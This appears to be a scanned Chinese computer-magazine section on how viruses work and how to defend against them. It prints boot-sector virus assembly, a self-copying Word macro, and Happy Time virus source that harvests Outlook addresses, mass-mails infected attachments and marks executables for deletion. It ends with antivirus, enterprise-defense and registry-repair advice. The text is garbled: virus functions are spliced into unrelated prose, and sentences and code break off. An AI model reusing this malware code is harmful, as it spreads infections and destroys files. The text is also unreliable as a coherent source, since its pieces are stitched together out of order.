FTP服务器提供通过Internet获取文件资料的功能。计算机病毒程序同样可以下载到本地硬盘中，经过压缩后的病毒文件更具隐蔽性，让人防不胜防。

- 6. 通过WWW浏览进行攻击

第二代病毒采用JAVA、ActiveX技术，当用户访问某些站点时，就有遭受恶意JAVA、ActiveX程序攻击的危险，而这种危险有时很难防范。

综上所述，正因为任何正常的文件信息通道

#### 二、病毒原理与实例讲解

##### (一)引导型病毒原理

想要了解引导型病毒的原理，首先要了解引导区的结构。软盘只有一个引导区，即 DOS BOOT SECTER，只要软盘已格式化就会存在。其作用为查找软盘中有无 IO.SYS、MSDOS.SYS 等命令文件。若有则引导，若无则显示“NO SYSTEM DISK……”等信息。硬盘有两个引导区，在 0 面 0 道 1 扇区的称为主引导区，内有主引导程序和分区表，主引导程序查找激活分区，该分区的第一个扇区为 DOS BOOT SECTER。绝大多数病毒都可以感染硬盘主引导扇区和软盘 DOS 引导扇区。

基本引导病毒的攻击流程为：带毒硬盘引导 → BIOS 将硬盘主引导区读到内存 0:7C00 处，控制权转到主引导程序(病毒) → 将 0:413 单元的值减少 1K 或 nK → 计算可用内存高段地址将病毒移到高段继续执行 → 修改 INT13 地址，指向病毒传染段，将原 INT13 地址保存在某一单元 → 病毒任务完成，将原引导区调入 0:7C00 执行 → 机器正常引导带毒软盘引导 → 判断硬盘是否有毒，若无毒则传染 → 以下同上(传染时将病毒写入主引导扇区，将原引导程序存入某一扇区)。

引导型病毒一般采取修改 0:413 地址的方法驻留内存，因为引导时，DOS 还未加载，这是唯一的方法。但有很大的缺点，启动后用 MEM 命令可以发现常规内存的总量少于 640KB，不够隐蔽。不过，可以修改 INT 8，以检测 INT 21 是否建立，若建立则可采用 DOS 功能驻留内存。另外，引导型病毒还具有隐形技术和加密技术。

> 隐形技术：当病毒驻留时，读写引导区均对原引导区操作，就好像没有病毒一样。
加密技术：一般加密分区表，使无毒盘启动，无法读取硬盘。引导型病毒的优点：隐蔽性强，兼容性强。只要编得好，是不容易发现的，通用于 DOS、Windows、WIN95 操作系统。缺点：传染速度慢，一定要带毒软盘启动才能传到硬盘，杀毒容易，只需改写引导区即可。

使用 Fdisk/mbr 命令，或者使用 KV3000、瑞星、VRV 的杀毒软盘均能查出所有引导型病毒，主板也能在 BIOS 中设置对引导区写保护，所以现在纯引导型病毒已经很少了。

引导型病毒指驻留在硬盘的主引导分区或硬盘的 DOS 引导分区的病毒。由于 PC 开机后，会先执行主引导分区的代码，因此病毒可以获得第一控制权，在引导 DOS 操作系统前，做完以下事情。

- (1)减少 DOS 最大可用内存量。
- (2)修改必要的中断向量，以便传播。
- (3)读入病毒的其它部分，然后进行病毒的拼装(在内存高端)。

```
xor ax, ax
mov ss, ax
mov sp, 7c00h
mov ds, ax
mov ax, word ptr ds:[413h]; here store largest mem 0000:0413
sub ax, 2 ; apply 2k mem for virus
mov ds:[413h], ax
```

```
mov cl, 06h
shl ax, cl ; ax = 8F80
add ax, 0840h; ax = 97c0
mov es, ax
mov si, 7c00h ; si = 7c00
mov di, si
mov cx, 0100h
repz movsw; 将病毒移到高端。
v2: push ax
pop ds
push ax
mov bx, 7c4bh
push bx
ret; 指令执行转入高端内存
call v3
v3: xor ah, ah, ah = 0
int 13h
mov ah, 80h
and byte ptr ds:[7df8h], al
v4: mov bx, word ptr ds:[7df9h]; 读入病毒的其他部分。
push cs
pop ax; ax=97c0
sub ax, 20h; ax=97a0
mov es, ax; es=97a0
call v9
mov bx, word ptr ds:[7df9h]; load logic sector id
inc bx; bx++, is boot sector
mov ax, 0ffc0h ; ffc0:8000=0000:7c00 读入原引导分区内容。
mov es, ax
call v9
xor ax, ax; AX=0
mov byte ptr ds:[7df7h], al; flag=0
v5: mov ds, ax; ds=0
mov ax, word ptr ds:[4ch];
mov bx, word ptr ds:[4eh]; 修改中断向量。
```

```
mov word ptr ds:[4ch], 7cd6h
mov word ptr ds:[4eh], cs; now int13h had been changed
push cs
pop ds; ds = cs
mov word ptr ds:[7d30h], ax; save original int13 vector
mov word ptr ds:[7d32h], bx ;
v6: mov dl, byte ptr ds:[7df8h]; load drive letter
v7:
```

```
jmp 0000:7c00; here is a jump
db 0eah, 00h, 7ch, 00h, 00h; 这里是个跳转指令的二进制代码。
```

（4）读入原主引导分区，转去执行DOS的引导工作。

##### (二)文件型病毒原理

要了解文件型病毒的原理，首先要了解文件的结构。COM文件比较简单，病毒要感染COM文件有两种方法，一种是将病毒加到COM前部，另一种是加到文件尾部。

A B

|-病毒-| |JMP XXXX:XXXX| (原文件的前3字节被修改)

|原文件| |- 原程序 -|

|- 病毒 -|

EXE文件比较复杂，每个EXE文件都有一个文件头，结构如下。

| EXE文件头信息 |  |
| --- | --- |
| 偏移量 | 意义 |
| 00h-01h | MZ, EXE文件标记 |
| 02h-03h | 文件长度除 512 的余数 |
| 04h-05h | ............. 商 |
| 06h-07h | 重定位项的个数 |
| 08h-09h | 文件头除 16 的商 |
| 0ah-0bh | 程序运行所需最小段数 |
| 0ch-0dh | ............. 大..... |
| oeh-0fh | 堆栈段的段值 (SS) |
| 10h-11h | ........ SP |
| 12h-13h | 文件校验和 |
| 14h-15h | IP |
| 16h-17h | CS |
| 18h-19h | ............. |
| 1ah-1bh | ............. |
| 1ch | ............. |

当DOS加载EXE文件时，根据文件头信息调入一定长度的文件，设置SS、SP从CS:IP开始执行。病毒一般将自己加到文件的末端，修改CS:IP的值指向病毒起始地址，并修改文件长度信息和SS、SP。

##### (三)混合型病毒原理

所谓混合型，是一种既能感染引导区，又能感染文件的病毒。但并非简单地将文件型病毒和引导型病毒加在一起，其中有一个转换过程。一般采取以下手法：文件中的病毒执行时将病毒写入引导区，这是很容易理解的。染毒硬盘启动时，用引导型病毒的方法驻留内存，但此时DOS并未加载，无法修改INT21，也就无法感染文件；可以用这样的办法，修改INT 8，保存INT 21目前的地址，用INT 8服务程序监测INT 21的地址是否改变，若改变则说明DOS已加载，则可修改INT 21指向病毒传染段，这是混合型病毒关键之处。

##### (四)宏病毒编制原理

该类病毒主要是利用了微软的宏功能编制的病毒，事实上并不只是Office中的VBA可以用来编写病毒，任何有文件I/O功能的Script都可以。例如ASP中的VBScript，Windows中的Script，StarOffice中的Macro，DOS中的BAT和UNIX中的ShellScript等。考虑到传播的广泛性，仍然还是以Word为首。以下说明在Word中制作MacroVirus的方法。

这里所说的AutoMacro不只是AutoOpen类的宏，还包括DocumentOpen、DocumentClose等在执行必要操作时会触发的事件。病毒触发要隐含在正常的操作中，这些必然执行的宏就是最好的宿主。

以下是一个将MacroContainer的Sub Document_close()写到ActiveDocument的例子，改一下就是个宏病毒了。

```
Sub Document_close()
set m = MacroContainer.VBProject.VBComponents.Item(1).CodeModule
set a = ActiveDocument.VBProject.VBComponents.Item(1).CodeModule
for i = 1 to m.CountOfLines
str = m.Lines(i, 1)
if str = Sub Document_close() then Exit For
next
j = 1
Label_01:
InsertLines j, str
if str=" End Sub" goto Label_02
j = j + 1
i = i + 1
str = m.Lines(i, 1)
```

```
goto Label_01
Label_02:
End Sub
```

##### (五)欢乐时光病毒源代码剖析

下面，我们以欢乐时光病毒的源代码来分析一个病毒的完整工作流程。

```
Function GetExt(Of, Od, S)
Dim fext
On Error Resume Next
fext = Lcase(Of.GetExtensionName(S))
GetExt = Od.Item(fext)
'返回Dictionary对象中指定的key对应的item——即0001(exe)等
End Function
```

```
Sub Rw(k, v)
'注册表
Dim R
On Error Resume Next
Set R = CreateObject(WScript.Shell)
'创建对象
R.RegWrite k, v
End Sub
```

```
Function Rg(v)
'读注册表
Dim R
On Error Resume Next
Set R = CreateObject(WScript.Shell)
'创建对象
Rg = R.RegRead(v)
End Function
```

```
Function IsVbs()
'此函数判断该文件是不是VBS文件
Dim ErrTest
On Error Resume Next
ErrTest = WScript.ScriptFullname
If Err Then
'如果出错，则不是VBS
IsVbs = False
Else
IsVbs = True
End If
End Function
```

```
Function IsHTML()
'此函数判断是不是Html文件
Dim ErrTest
On Error Resume Next
ErrTest = document.Location
If Err Then
IsHTML = False
'如果出错，则不是HTML
Else
IsHTML = True
End If
End Function
```

```
Function IsMail(S)
'此函数判断是不是邮件地址
Dim m1, m2
IsMail = False
If InStr(S, vbCrLf) = 0 Then
'返回vbCrLf在S中第一次出现的位置，vbCrLf是换行符
m1 = InStr(S, "@")
m2 = InStr(S, ".")
If m1 <> 0 And m1 < m2 Then
'如果有"@"符号且"@"在"."之前，则是邮件地址
IsMail = True
End If
End If
End Function
```

```
Function Gsf()
'得到windows目录
Dim Of, m
On Error Resume Next
Set Of = CreateObject("Scripting.FileSystemObject")
'创建FileSystemObject对象
m = Of.GetSpecialFolder(0)
'得到特殊目录——Windows、System和Temp目录
If Err Then
'如果失败，返回C:\
Gsf = "C:\"
Else
'若正常，则返回%Windows%
Gsf = m
End If
End Function
```

```
Function Lhtml()
'写入超文本的内容，其中vbCrLf是换行符
Lhtml = "<" & HTML & "><" & Title & "> Help <" & Body & ">" & _
Lscript(Lvbs()) & vbCrLf & _
"<" & "/Body>"
End Function
```

```
Function Lscript(S)
'写入vbscript的声明
Lscript = "<" & "script language='VBScript'>" & vbCrLf & _
S & "<" & "/script" & ">"
End Function
```

```
Function Sl(S1, S2, n)
Dim l1, l2, l3, i
l1 = Len(S1)
'得到文件流的长度
l2 = Len(S2)
'得到mailto:的长度
i = InStr(S1, S2)
'在文件流中查找mailto:第一次出现的位置——值为一个数
If i > 0 Then
'找到则进行字符串操作
l3 = i + l2 - 1
```Function Og()
'得到WAB(通讯簿)中的邮件地址
Dim i, n, m(), Om, Oo
Set Oo = CreateObject("Outlook.Application")
'创建Outlook应用程序对象, Outlook和Outlook Express都跑不掉啦!
Set Om = Oo.GetNamespace("MAPI").GetDefaultFolder(10).Items
n = Om.Count
ReDim m(n)
For i = 1 To n
    m(i - 1) = Om.Item(i).Email1Address
'得到每个WAB中的邮件地址
Next
Og = m
End Function

Sub TSend()
'发带毒邮件
Dim Od, MS, MM, a, m
Set Od = CreateObject("Scripting.Dictionary")
MConnect MS, MM
MM.FetchSorted = True
MM.Fetch
For i = 0 To MM.MsgCount - 1
    MM.MsgIndex = i
    a = MM.MsgOrigAddress
    If Od.Item(a) = "" Then
        Od.Item(a) = MM.MsgSubject
    End If
Next
For Each m In Od.Keys
    MM.Compose
    MM.MsgSubject = "Fw: " & Od.Item(m)
'设置邮件标题
    MM.RecipAddress = m
'此邮件的当前的目标邮件地址
    MM.AttachmentPathName = Gsf & "\Untitled.htm"
'添加附件Windows\Untitled.htm
    MM.Send
'发送!
Next
MS.SignOff
End Sub

#### 三、杀毒软件的杀毒原理

计算机反病毒技术主要集中在病毒的预防技术上，这也是反病毒中最核心和最难的技术。

##### (一)实时反病毒技术

早在 80 年代末，就有一些单机版杀毒软件在国内的市场上流行。但由于新病毒的层出不穷、产品售后服务和升级等方面的原因，这些杀毒软件无力应付病毒的大举进攻。面对这种局面，当时国内就有人提议，可将重要的 DOS 引导文件和重要系统文件固化到 PC 机的 BIOS 中，以避免病毒对这些文件的感染。这可算是实时化反病毒概念的雏形。

Function Er()
'设置的错误陷阱，避免程序崩溃，严谨的风格值得学习
If Err.Number = 0 Then
    Er = False
Else
    Err.Clear
    Er = True
End If
End Function

虽然固化操作系统的设想对防病毒来说并不可行，但没过多久各种防病毒卡就在全国各地纷纷登场了。这些防病毒卡插在系统主板上，实时监控系统的运行，对类似病毒的行为及时提出警告。这些产品一经推出，其实时性和对未知病毒的预报功能便大受欢迎。一时间，实时防病毒概念在国内大为风行。据业内人士估计，当时全国各种防病毒卡多达百余种，远远超过了防病毒软件的数量，直至实时反病毒技术的出现，这种病毒卡才逐渐退出杀毒市场。

Function IsDel(S)
'此函数查看当前文件是否是要删除的文件类型
If Mid(S, 4, 1) = "1" Then
'看S的第四个字符是否是1——即是0001(exe和dll)
    IsDel = True
'如是，返回True，以备删除
Else
    IsDel = False
'如不是，返回False
End If
End Function

实时反病毒技术一向被反病毒界所看好，被认为是比较彻底的反病毒解决方案。为什么在 Windows 环境下需要使用实时反病毒技术? 这是由 Windows 的多任务特性决定的。对于同时运行的多个任务，传统的 DOS 反病毒技术无法发挥正常的反病毒功能，因为它无法控制其他任务所使用的资源。只有在较高优先级上，对系统资源进行全面、实时的监控，才有可能解决 Windows 多任务环境下的反病毒问题。有的用户可能会问，是否可以使用防病毒卡或传统的常驻内存(TSR)技术来实现这种实时化的反病毒功能？答案是“不行”。由于防病毒卡存在与系统不兼容，只预防不杀毒、安装不便和误报等原因，已经使其无法在市场上立足。虽然在传统的DOS环境下有些反病毒产品仍在使用TSR实现了病毒防治的实时化，但它们却普遍存在兼容性方面的问题。即使我们抛开兼容性不谈，假定这种TSR能够很好地工作在Windows环境下，又将发生什么？Windows仍将它作为实模式窗口(有时又被称为DOS虚拟机)打开，这种实模式窗口所能访问到的资源是固定的，是由Windows分配的。出于安全性考虑，Windows不允许这个TSR访问不属于它的资源(特别是系统关键数据)。如果此时系统遭受病毒入侵(比如病毒企图改写硬盘主引导扇区)，TSR检测不到这种病毒行为，即发生了所谓“漏报”。更严重的情况可能是TSR发现了这种病毒行为，但由于系统认为所涉及的资源与该TSR所属于的实模式窗口无关而产生了操作冲突，这种情况下，TSR非但杀不了病毒，还很有可能造成系统被挂起或崩溃。

##### (二)32位内核技术

32位内核可以被看成是区别DOS(16位)与Windows(32位)反病毒技术的分水岭。其原因如下：首先，32位内核反病毒技术大大扩展了内存寻址空间，这是显而易见的，但就反病毒技术而言，这一问题以前并没有引起我们足够的重视。在传统的DOS环境下，病毒在计算机系统内存中的分布由被感染的应用程序决定。对引导型病毒而言，病毒往往驻留在常规内存高端，也就是我们最熟悉的630KB～640KB内存空间；对可执行文件型病毒而言，最多也不会超过内存低端的1MB。对于这种内存分布，使用16位寻址已经足够了。但是作为准32位操作系统，Windows会根据资源使用状况将应用程序加载到内存的任意位置，系统关键数据的安排也远远突破了16位程序的寻址能力。此时如果不使用32位寻址方式，则连最基本的内存资源都无法控制，何谈反病毒？其次，16位应用程序无法实现多任务、多线程调度，这一结论早在32位应用程序刚刚出现时就已被澄清。在Windows环境下，不具备多任务、多线程调度的反病毒技术，根本无法控制其他任务和属于其他任务的资源，因此对其他任务中可能带有的病毒也只好听之任之了。Windows 98/Me将是Windows 9x体系的终结，Windows后续产品无疑将基于NT内核——具备全32位体系结构，自然不再会考虑与老硬件和DOS的兼容。所以，不具备32位内核的反病毒技术，今后非但称不上Windows反病毒技术，更严重的是很有可能失去操作系统支持这最后一线生机。

##### (三)VxD机制

VxD(虚拟设备驱动)，是微软专门为Windows定制的设备驱动程序接口规范。VxD程序有点类似于DOS中的设备驱动程序，专门用于管理系统所加载的各种设备。比如Windows为了管理鼠标，就会加载一个鼠标虚拟设备驱动程序(通常是Mouse.VxD)。微软将它称为“虚拟设备驱动”，是因为VxD不仅仅适用于硬件设备，同样也适应于按照VxD规范编制的各种软件。有很多应用软件都需要使用VxD机制来实现某些比较特殊的功能，比如最常见的VCD软解压工具，使用VxD程序能有效改善视频回放的效果。Windows反病毒技术也需要利用VxD机制，这是因为VxD程序具有比其他类型应用程序更高的优先级，而且更靠近系统底层资源。只有这样，反病毒软件才有可能全面、彻底地控制系统资源，并在病毒入侵时及时报警。

##### (四)无缝连接

当然，作为面向Windows环境的实时化反病毒技术，与Windows操作系统实现无缝连接也是其重要的特色之一。所谓无缝连接，最通俗的理解是在充分掌握系统底层协议和接口规范的基础上，开发出与之完全兼容的产品。作为无缝连接的一个特例，不妨考察一下Windows 95/98和NT的“快捷菜单”(Shortcut Menu)。当我们对某一目标单击鼠标右键时，系统会弹出与之关联的快捷菜单，帮助我们迅速启动某软件(或某项功能)。设计精良的软件应该能够自动将有关功能加入到相关的快捷菜单中去，这点对于反病毒软件也具有相当启发意义。试想，在资源管理器中对某一文件夹或文件单击鼠标右键时，在弹出的快捷菜单中直接选择“病毒扫描”类功能，将会给用户带来多大的便利！相反，当应用软件与操作系统不兼容时，是应该修改应用软件，还是修改操作系统？答案当然不言自明。

##### (五)虚拟机技术

虚拟机技术是国际反病毒领域的前沿技术。这种技术更接近于人工分析，智能化极高，查毒的准确性也大幅提升。首先，让我们看下一下病毒分析者的工作。当拿到一个病毒样本时，我们不敢直接运行它，因为它可能是带毒的，而且极可能是未知的，是目前为止还无法查杀的新病毒。要分析它，我们必须做到跟踪它的执行，查看它是否具有传染模块和破坏模块。这里涉及到一个重要问题——判定样本是否是病毒的重要问题首先看它是否具有传染性。我们可以

##### (六)防毒芯片

防毒芯片使病毒的防护工作在开机的一刹那即开始工作，防毒芯片加载于主板芯片(ROM BIOS)上，在一开机时即可拦截引导区的病毒，可100%拦截NCSA引导型病毒库中已知的或未知的引导型病毒。

##### (七)主动内核(Active K)技术

Active K(主动内核)技术的要点在于它采用了与“主动反应装甲”同样的概念，能够在病毒突破计算机系统软、硬件的瞬间发生作用。这种作用一方面不会伤及计算机系统本身，另一方面对企图入侵系统的病毒具有彻底拦截并杀除的作用。实时化的反病毒技术，可以被称为“主动反应”技术，这种反病毒技术能够在用户不关心的情况下，自动将病毒拦截在系统之外。但以上技术都不是深入到内核的技术。主动内核技术，用通俗的说法是从操作系统内核这一深度，给操作系统和网络系统本身打了一个补丁，而且是一个“主动”的补丁，这个补丁将从安全的角度对系统或网络进行管理和检查，对系统的漏洞进行修补；任何文件在进入系统前，反毒模块都要对其进行检查，现今杀毒软件的病毒防火墙就是这样一个概念。

##### (八)检查压缩文件病毒技术

随着各种应用程序的不断完善和程序量不断增大，压缩文件的使用也越来越普遍。前面提到了杀毒软件与系统的无缝连接，而检查压缩文件病毒就是通过与系统、软件的无缝连接实现的。杀毒软件可以通过系统或软件本身来识别压缩文件，在查病毒的过程中进行尝试性、自动性解压缩操作，将解压缩后的文件进行查毒、杀毒处理。不过，实时监控压缩文件会极大地增加系统的负担，对于很多资源并不宽裕的用户来说极易增加系统负担，通常在杀毒软件的防火墙中设置为不检查压缩文件比较合适。当文件解压缩时，该病毒仍会被防火墙自动查杀。

(VRV 病毒工作室 / 刘金英)

400页图书+双CD=28元
数十个热门专题，
百多篇技术文章，
近千个实用技巧，
辅以超值软件光盘，
精彩教学视频，
超酷互动界面 精品荟萃，海量文库！

☆精彩专题导读☆

| 分类 | 内容 |
| :--- | :--- |
| ◇软件应用提速 | 你所不知道的注册表秘密、微软Office技巧大比拼、软件补丁大全、让你的数据更安全、软件优化提速、更多>>> |
| ◇网海扬波 | 网海淘金术、家庭局域网计划、下载无极限、Web 3D也疯狂、更多>>> |
| ◇硬件学堂 | 电脑采购防伪要诀、硬件驱动程序攻略、DIY技巧精粹、BIOS实用技术、电脑故障排除、更多>>> |
| ◇数码新生活 | 数码摄影手册、手机时尚妙用、更多>>> |
| ◇游戏娱乐 | 酷软桌面、更多>>> |
| ◇编程天地 | 小叮当七日学VB、DELPHI精彩实例大放送、更多>>> |
| ◇多媒体看台 | MX三剑客立体作战、跟我学做电脑音乐、Photoshop第三方软件集锦、视频点播方案、更多>>> |

☆超值软件放送☆

| 分类 | 软件列表 |
| :--- | :--- |
| ◇超软放送 | WPS Office 2002、Dreamweaver MX、Flash MX、Fireworks MX、Cakewalk snok、精品文库彩色电子版、更多>>> |
| ◇新潮软库 | 系统应用、多媒体工具、网络相关、硬件相关、驱动集锦、教学视频 |

国庆前邮购可享受九折优惠，机不可失！
邮购电话：(010)62161332、62161335、62162598-8605/8608/8658
传 真：(010)62161961。邮件查询：cfan_hdb@cfan.com.cn
邮购地址：北京市9615信箱 电脑爱好者杂志社邮购部(100086)
投稿信箱：cfan_hdb@cfan.com.cn (长期征集有特色的专题性文章)。

## 企业病毒防御措施

面向企业的病毒防护可不像面向个人电脑的病毒防护那样简单，网络中所有的终端、通道都可能是病毒的有效攻击点，只有通过全方位的、多层次的防毒配置，才能使企业网络免遭病毒的入侵和破坏。下面，我们以北信源VRV网络杀毒在国家统计局内部广域网设计的实际案例来说明企业病毒防护的基本措施。

国家统计局网络拥有统计系统内网专线，并有Internet出口，基于Unix系统的邮件服务器、基于Winnt/2000的应用服务器、若干台Oracle数据服务器等其它服务器，并有数千台Windows 9x/2000的系统终端分布在统计局各科室。各省市县局同国家局形成三级网络，通过DDN专线接入总局，各省市拥有独立邮件服务器、数据库等服务器和大量工作站，下行接入县(市)网络。

### 一、病毒对系统网络的威胁

- (1) 病毒攻击网络工作站，导致系统无法正常工作或数据破坏。
- (2) 病毒攻击服务器，导致如邮件服务器、数据库服务器、代理服务器等瘫痪或数据破坏，导致整个网络用户无法工作。
- (3) 高速传播和具有网络攻击能力的病毒拥挤有限网络带宽，让网络交换机、路由器、服务器严重过载，导致网络瘫痪。

### 二、防病毒系统设计实现

#### (一)网关病毒防御(VRVGATE)

邮件服务器作为内网用户邮件的集中地和发散地，同时也成为病毒邮件、垃圾邮件的进出门户。北信源防毒网关(Vrvgate)的功能就是在网络入口处将邮件病毒、邮件垃圾截杀掉，确保内部网络用户收到安全无病毒的邮件，全面解决邮件病毒问题(如图1)。

##### 1. 防毒网关应具备的功能

- (1) 对邮件服务器的网络边际病毒过滤功能，防止病毒以及恶性程序入侵，对垃圾邮件、不良内容进行过滤。
- (2) 对内网网络病毒过滤，基于网关、端口代理对内网服务器、实施Http浏览、FTP文件、URL地址限制，对网络入口数据流进行安全检查，进行缓存保护，过滤恶意脚本、木马等。并过滤垃圾邮件、假冒用户转发邮件。
- (3) 允许用户定制过滤规则。
- (4) 支持病毒集中监控管理，自动升级病毒库。
- (5) 进行邮件传输监视，检测邮件传输过程。
- (6) 进行邮件流量日志分析(日流量、阶段曲线、饼图)等。

下面，我们以邮件杀毒网关来说明网关杀毒的实际措施。

##### 2. 邮件网关杀毒与邮件服务器嵌入式杀毒的区别

网关杀毒软件是在邮件进入邮件服务器前就对邮件进行过滤，多种邮件系统都可兼容；而嵌入式邮件服务器杀毒软件则是在邮件服务器收到邮件之后才会对邮件进行检测。嵌入式的邮件服务器杀毒软件必须安装在邮件服务器上，这样就会有一定的风险性，而且不具备通用性。邮件网关杀毒可以阻拦垃圾邮件对邮件服务器的冲击，而普通邮件服务器杀毒则做不到这一点。

如果用户邮件服务器是基于 Windows 平台，可将 '网关杀毒' 直接安装在该邮件服务器上，但需要更改原邮件服务器上的 SMTP 端口，采用邮件代理方式工作，对原邮件服务器没有任何影响(如图2)。

如果用户邮件服务器是非 Windows 平台，如 HP、IBM、SUN、Linux 等，可将 '邮件网关杀毒' 安装在单独邮件网关杀毒服务器上，要求系统为 Windows 2000，只需要更改原 DNS 服务器上的设置，将原邮件服务器上的 DNS 域指向的地址改为邮件网关杀毒服务器地址，采用邮件代理方式工作，对原邮件服务器没有任何影响(如图3)。

#### (二)局域网内部病毒防御(Client&Server)

##### 1. 工作站病毒防治

要求杀毒软件能够动态识别客户机操作系统，支持防毒软件自动分发安装，并实时在线监控；通过防毒管理平台设置统一防毒策略，获取完整病毒活动日志，实施统一病毒码和程序更新；支持 HTTP、FTP 和共享目录等升级方式。

##### 2. 服务器病毒防治

要求服务器防病毒软件可进行定制安装，基于多种稳定性设计，适合各种服务器；高效快速查杀病毒，负载均衡优化，应付各种高速数据服务器；具有自动升级，软件智能修复功能。

##### 3. 数据库病毒防护(DB)

需要支持 SQL Server、Oracle、DB2 等多种数据库系统，通过 '查询式' 和 '实时扫描' 两种方式查杀数据库多重带毒文件(如图4)。

##### 4. 广域网病毒管理(HQ)

广域网病毒管理多位树型网络分布，通常采用三级管理模式，依次为终端杀毒、局域网集中监控、广域网总部管理(如图5)。

HQ 的功能包括监控本地、远程异地下属局域网病毒发生情况；病毒信息汇总，进行病毒安全风险评估、防毒策略制订配发；统计分析广域网病毒爆发种类、发生频度、易发生源等日志记录；实现统一立体的引擎、病毒库分发及升级等任务调度等。

(文/VRV病毒工作室)

## 网络安全

不知道你有没有遇到过这样的情况：每次打开浏览器都会打开同一页，而且还不能修改；自己的机器突然蓝屏死机了；想聊天时却发现自己的 QQ 密码错误……实际这些都是网络上的一些恶意程序在作怪（包括恶意网页、逻辑炸弹、木马等）。我们有没有办法应对呢？答案是肯定的。

### 一、恼人的恶意代码

现在人们上网冲浪时常常会碰到一些令人反感的事；比如说在浏览一些网站（多为个人主页）后 IE 浏览器的标题栏被篡改成了诸如“欢迎访问……网站”的字样，IE 的起始页、主页默认页也被设置成了那些网站的网址，更有甚者在访问者的 IE 右键菜单中加入了那些网站的名字。这都是那些网站为了宣传自己的网站通过在网页中嵌入 JavaScript 脚本语言来修改浏览者注册表中相应的键值所造成的。那我们怎样去掉这些烦人的信息呢？下面，让我们来分别看看这些症状和处理方法（以下都是以 Windows 98/Me 为例，2000/XP 处理方法类似）。

#### （一）篡改 IE 标题栏

要修复 IE 标题栏，在注册表编辑器中展开 HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main 和 HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main，将右部窗口中的 Window Title 键值名直接删除即可（如图 1）。

#### （二）篡改 IE 起始页

要修复 IE 起始主页方法很简单，在 IE “工具”菜单中单击“Internet 选项”，选择“常规”选项卡，在“主页”文本框中输入起始页的网址即可。
如果进行上述设置后不起作用，那肯定是在 Windows 的“启动”组中加载了恶意程序，使每次启动电脑时自动运行程序来对 IE 进行非法设置。可通过注册表编辑器，将此类程序清除，方法是：点击“开始→运行”，输入 Regedit 后回车，在注册表编辑器中依次展开 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\Current Version\Run，右部窗口中显示的是所有启动时加载的程序项，将包含可疑程序的键值名删除（如图 2）。

除了起始主页，还有默认主页被修改的情况。我们还可以通过注册表编辑器来修复默认主页。展开 HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main，修改右部窗口中的键值名 Default_Page_URL 的键值，这个键值就是新的 IE 默认主页。

#### （三）篡改 IE 工具栏

IE 的工具栏包括工具按钮、地址栏、链接等几个项目，恶意网页可能会在工具栏上添加按钮，或者在地址栏的下拉列表中加入一些并未访问过的网址，或者篡改链接栏的标题。要去掉不需要的按钮，只需对工具栏按钮点右键选“自定义”，在“当前工具栏按钮”下拉框中选定不需要的按钮后点击“删除”即可。
要去掉多余的地址列表，可通过注册表编辑器展开 HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\TypeURLs，将右部窗口中 url1、url2 等键值名全部删除即可。
要修复链接栏标题，首先展开 HKEY_CURRENT_USER\Software\Microsoft## (四)篡改IE默认的搜索引擎

在IE的工具栏中有一个“搜索”按钮，它链接到一个指定的搜索引擎，可实现网络搜索。而被恶意网页修改后的该按钮会链接到其他的网页上去。

要修复搜索引擎，首先要展开HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Search，在右部窗口中将CustomizeSearch、SearchAssistant这两个键值名对应的网址改为某个搜索引擎的网址即可。

#### (五)篡改IE右键菜单

有些恶意网页对IE右键快捷菜单进行修改，加入了一些无聊的信息，或是加入指向其网站的链接。要删除右键菜单中的垃圾内容，可通过注册表编辑器展开HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt，将下面的垃圾内容全部删除即可，也可直接把MenuExt子键删除掉(如图3)。

有些网页为禁止下载或者查看源代码，禁止使用右键。解决的方法是在注册表编辑器中展开HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions，在右部窗口中将键值名NoBrowserContextMenu的Dword键值改为0，或者将该键值名删除(如图4)。

#### (六)系统启动时弹出对话框

若出现启动Windows时弹出网页，这是由于恶意网页修改了Windows的“启动”组。解决方法是：展开HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run，在右部窗口中将包含有url、htm、html、asp、php等网址属性的键值名全部删除(如图5)。

还有一种情况是启动Windows时会弹出对话框，以显示的广告信息。解决办法是展开HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion，在右部窗口中将Winlogon子键删除即可。

#### (七)禁止修改注册表

当我们使用注册表编辑器Regedit.exe去修复注册表时，系统提示“注册表编辑器被管理员所禁止”，这就是因为恶意网页禁止了Regedit.exe的使用，阻止我们修复注册表。

我们可以从网上下载一个注册表编辑器，展开HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System，将键值名DisableRegistryTools的键值改为0，或将该键值名删除，这样便可以继续使用Windows自带的注册表编辑器了(如图6)。

如果找不到其它编辑器，也利用记事本编写一个REG文件。编写REG文件的工具并不神秘，它就是我们经常用到的记事本！点击“开始”菜单，从“程序”→“附件”中找到“记事本”程序并执行它(如图7)。
在记事本中输入以下内容。

```
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

完成后的画面如图8所示。

写好后，从“文件”菜单上选择“保存”命令，以“C:\Reg.reg”名称存盘。注意，一定要将保存类型选为“所有文件(*.*)”，扩展名一定要写成.reg。否则Windows会把它认成是文本文件。

做好了REG文件，接下来就是执行它的过程了。打开“资源管理器”，切换到C盘，双击REG文件(如图9)。

这时系统弹出“是否确认要将 C:\reg.reg 中的信息添加进注册表？”的窗口，点击“是”。

随后弹出的窗口显示“C:\reg.reg 里的信息已被成功地输入注册表”，表明导入成功。点按“确定”按钮，关闭窗口。这时，注册表已被成功地解锁(如图10)！

#### (八)格式化硬盘

恶意网页是利用IE执行ActiveX功能，调用Windows下的Format.com程序对硬盘进行格式化，由于使用了一个微软未曾公开的运行参数，Format.com格式化硬盘时无需经过你的确认而自动进行，同时窗口处于最小化状态，很可能你还没反应过来，你的某些硬盘分区就已经完蛋了。

